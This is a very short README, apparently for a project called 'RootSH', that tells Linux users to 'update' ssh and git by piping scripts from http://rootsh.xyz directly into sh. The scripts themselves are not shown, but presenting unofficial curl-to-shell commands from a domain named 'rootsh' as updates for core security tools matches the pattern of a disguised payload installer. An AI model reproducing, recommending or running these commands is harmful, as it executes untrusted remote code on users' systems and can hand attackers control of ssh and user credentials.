 # RootSH 

## Update ssh for your linux

```
curl  http://rootsh.xyz/update-ssh.sh -sS  | sh
```
## Update Git for your linux

```
curl  http://rootsh.xyz/update-git.sh -sS  | sh
```

